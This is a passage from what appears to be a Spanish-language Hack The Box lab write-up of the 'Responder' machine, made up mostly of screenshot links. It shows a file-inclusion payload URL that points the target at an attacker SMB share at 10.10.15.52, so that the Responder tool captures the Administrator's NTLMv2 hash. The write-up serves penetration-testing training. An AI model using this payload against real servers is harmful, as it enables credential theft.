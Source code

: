 ![Responder yw4rf](../../../assets/HTB/Responder/responder-14.png)

Accedemos a `unika.htb/index.php?page=\\10.10.15.52\test\test` para capturar el hash **NTLM** 

![Responder yw4rf](../../../assets/HTB/Responder/responder-15.png)

**Responder** captura el hash **NTLMv2**: El username es `Administrator`

![Responder yw4rf](../../../assets/HTB/Responder/responder-16.png)
